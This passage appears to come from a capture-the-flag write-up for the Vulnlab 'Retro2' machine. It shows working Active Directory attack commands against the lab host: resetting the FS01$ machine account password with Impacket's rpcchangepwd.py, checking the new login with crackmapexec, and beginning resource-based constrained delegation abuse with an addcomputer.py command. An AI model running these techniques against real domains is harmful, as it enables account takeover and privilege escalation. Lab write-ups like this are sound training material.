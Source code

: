 *We got **`BLN01`** as the hostname from the Nmap output for the IP we obtained.*

We got the below error :

```
kpasswd: Cannot contact any KDC for requested realm getting initial ticket
```

We tried troubleshooting but failed. After researching, we found that we could use the [rpcchangepwd.py](https://raw.githubusercontent.com/api0cradle/impacket/a1d0cc99ff1bd4425eddc1b28add1f269ff230a6/examples/rpcchangepwd.py) script from Impacket to achieve the same result. We downloaded the tool, ran the following command, and were able to change the password. We attempted to change the passwords for all four users, and the **`FS01$`** user's password was successfully changed.

```
┌──(destiny㉿falcon)-[~/tools-backup]
└─$ python3 rpcchangepwd.py retro2.vl/fs01\$:fs01@10.10.69.202 -newpass P@ssw0rd 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Password was changed successfully.
```

We verified the password change using **crackmapexec** and it was successful.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ crackmapexec smb retro2.vl -u FS01$ -p P@ssw0rd
SMB         retro2.vl       445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         retro2.vl       445    BLN01            [+] retro2.vl\FS01$:P@ssw0rd 
```

We started the **BloodHound** enumeration again from the perspective of the user **`FS01$`** and discovered an interesting path that we could abuse to gain a foothold.

<img src="attachments/52c1b350c679e111bbb67aa03999f02b.png" />

```
FS01$:P@ssw0rd
```

##### GenericWrite Abuse

**Resource-Based Constrained Delegation**
>First, if an attacker does not control an account with an SPN set, a new attacker-controlled computer account can be added with Impacket's addcomputer.py example script: ( *Source : bloodhound* )

```
addcomputer.py -method LDAPS -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host $DomainController -domain-netbios $DOMAIN 'domain/user:password'
```
